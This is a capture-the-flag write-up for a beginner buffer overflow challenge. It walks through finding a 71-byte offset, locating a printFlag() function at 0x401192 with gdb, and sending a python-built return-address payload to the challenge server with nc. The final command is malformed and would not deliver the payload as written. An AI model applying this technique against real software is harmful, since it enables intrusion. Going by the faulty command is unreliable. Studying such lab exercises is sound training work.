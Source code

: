 # BOF
## Pwn

> Is the key the key?
>
> nc 159.89.194.7 1342

### Files
- bofez

### Analysis
The file provided is a linux binary for participants to test locally
The challenge name suggests that they should attempt a Buffer Overflow exploit.

### Solution
1. Finding the offset
   ```./bofez```<br />
   Spam "A"s as input until there is a segmentation fault<br />
   In this challenge, the offset was 71
2. Finding the flag
   Upon disassembling the binary, the printFlag() function can be seen<br />
   ```gdb bofez```<br />
   To find the memory address of the printFlag() function, use ```info functions```<br />
   printFlag() : 0x401192
3. Convert the memory address
   Convert the hexadecimal memory address to Little-Endian format<br />
   > \x92\x11\x40
4. Crafting the payload
   With the offset and memory address of the printFlag() function, craft the payload<br />
   ```python -c "print 'A' * 71 + '\x92\x11\x40'" > payload```<br />
   ```echo payload > nc 159.89.194.7 1342```

